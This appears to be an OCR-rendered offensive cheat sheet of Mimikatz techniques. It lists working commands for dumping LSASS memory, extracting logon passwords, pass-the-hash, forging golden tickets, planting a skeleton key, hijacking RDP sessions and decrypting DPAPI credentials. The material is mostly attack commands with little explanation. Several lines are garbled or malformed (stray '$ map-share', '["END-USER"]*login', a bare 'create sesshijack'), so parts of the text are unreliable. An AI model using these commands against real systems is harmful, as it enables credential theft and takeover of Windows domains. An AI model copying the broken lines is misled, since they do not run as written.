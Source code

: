 >`rundll32`
```powershell
>rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump $lsass_pid C:\temp\lsass.dmp full
```
then,
$ load -mimikatz
};
```powershell
>mimikatz # sekurlsa::minidump lsass.dmp
>Switch to minidump
>mimikatz # sekurlsa::logonPasswords
```
## Mimikatz - Pass The Hash
```powershell
>mimikatz # sekurlsa::pth /user:SCCM$ /domain:IDENTITY /ntlm:e722dfcd077a2b0bbe154a1b42872f4e /run:powershell
```
## Mimikatz - Golden ticket
```powershell
>.\mimikatz kerberos::golden /admin:ADMINACCOUNTNAME /domain:DOMAINFQDN /id:ACCOUNTRID /sid:DOMAINSID /krbtgt:KRBTGTPASSWORDHASH /ptt
```
```powershell
>.\mimikatz "kerberos::golden /admin:DarthVader /domain:rd.lab.adsecurity.org /id:9999 /sid:S-1-5-21-135380161-102191138-581311202 /krbtgt:13026055d01f235d67634e109da03321 /startoffset:0 /endin:600 /renewmax:10080 /ptt" exit
```
## Mimikatz - Skeleton key
```powershell
> privilege::debug
> misc::skeleton
$ map-share
> net use p: \\WIN-PTELU2U07KG\admin$ /user:john mimikatz
$ ["END-USER"]*login
> rdesktop 10.0.0.2:3389 -u test -p mimikatz -d pentestlab
```
## Mimikatz - RDP session takeover
$ts::multirdp -patch RDP.srvc -allow [USERS];
$ run tscon.exe \SYS\USER -connect --session -force
```powershell
>privilege::debug 
>token::elevate 
>ts::remote /id:2 
```
```powershell
# get the Session ID you want to hijack
>query user
>create sesshijack binpath= "cmd.exe /k tscon 1 /dest:rdp-tcp#55"
>net start sesshijack
```
## Mimikatz - Credential Manager & DPAPI
```powershell
# check the folder to find credentials
>dir C:\Users\<username>\AppData\Local\Microsoft\Credentials\*
# check the file with mimikatz
$ mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\2647629F5AA74CD934ECD2F88D64ECD0
# find master key
$ mimikatz !sekurlsa::dpapi
# use master key
```